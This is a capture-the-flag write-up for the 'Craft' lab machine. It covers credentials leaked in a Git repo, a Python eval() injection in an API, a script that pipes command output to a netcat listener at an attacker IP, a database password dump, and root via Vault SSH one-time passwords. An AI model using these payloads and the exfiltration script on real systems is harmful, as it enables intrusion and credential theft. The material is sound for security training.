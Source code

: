![](./logo.png)

# USER

On the `https` service is a number of links. 

- Gogs (Git hosting service)
- Craft API (Seems like a custom api)

Present on the `gog` instance is a git repository called `craft-api`. After looking at commits I have found some credentials baked into a test script for `dinesh`.

```
dinesh:4aUh0A8PbVJxgd
```

The issue commited by `dinesh` has a vulnerability in it. It uses `eval` to comapare the value, this means we can create a RCE!


For example passing the payload:
```
{"name":"X","brewer":"X", "style": "X", "abv": "__import__('os').system('cat /etc/passwd | nc 10.10.14.5 6868')"}
```

Will print us out the output to a listening `netcat` session!

Using the script below we can create a dumb terminal

```python
from requests import Session
import subprocess
import json
import requests

from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

"""
Script that exploits a RCE vulnerability from a python `eval()` call
to create a simple shell
"""

sesssion = Session()
sesssion.auth = ("dinesh", "4aUh0A8PbVJxgd")

url_base = "https://api.craft.htb/api/"


# Receves the auth tokens
r = sesssion.get(url_base + "auth/login", verify=False)
token_req = json.loads(r.text)

while True:

    command = input("> ")

    s = subprocess.Popen("nc -lvnp 6868", shell=True)

    data={
            "name":"X",
            "brewer":"X", 
            "style": "X", 
            "abv": f"__import__('os').system('{command} | nc 10.10.14.5 6868')"
        }

    r = sesssion.post(url_base + "brew/", 
        headers={
            "X-Craft-API-Token": token_req['token'],
            "Content-Type": "application/json"
        },
        data=json.dumps(data),
        proxies={
            # "https": "http://127.0.0.1:8080"
        },
        verify=False
    )
```

To get an actual shell, we will us this to upload a python shell file and execute it.

This gives us a shell on the box. After a little enum we can see that we're in a `docker` container.

With an edit for the dbtest script on the machine we can leak the passwords of all the users:

```python
#!/usr/bin/env python

import pymysql
from craft_api import settings

# test connection to mysql database

connection = pymysql.connect(host=settings.MYSQL_DATABASE_HOST,
                             user=settings.MYSQL_DATABASE_USER,
                             password=settings.MYSQL_DATABASE_PASSWORD,
                             db=settings.MYSQL_DATABASE_DB,
                             cursorclass=pymysql.cursors.DictCursor)

try: 
    with connection.cursor() as cursor:
        sql = "SELECT * FROM user"
        cursor.execute(sql)
        result = cursor.fetchall()
        print(result)

finally:
    connection.close()
```

This gives us:

```
ebachman:llJ77D8QFkLPQB
gilfoyle:ZEU3N8WNM2rh4T
```

The `gilfoyle` account has a hidden repository with `ssh` keys present!

We can use these to log into the box as `gilfoyle` and circumvent the docker container.

This lets us grab the `user.txt`!


# ROOT

Looking around further into the repo we see a script to expose secrets:

```
#!/bin/bash

# set up vault secrets backend

vault secrets enable ssh

vault write ssh/roles/root_otp \
    key_type=otp \
    default_user=root \
    cidr_list=0.0.0.0/0
```

Looking into the script further we can see that `vault` holds secrets but also can provide one time passwords for ssh login.

Initally I though that I was connecting to the `vault` service at 172.20.0.2. 

However, looking at the documentation and seeing this image:

![](_images/ssh.png)

Prompted me to try logging into the service like so:

```
vault ssh root@localhost
```

After placing the `opt` into the password prompt I was logged in! This provides me access to the `root.txt`.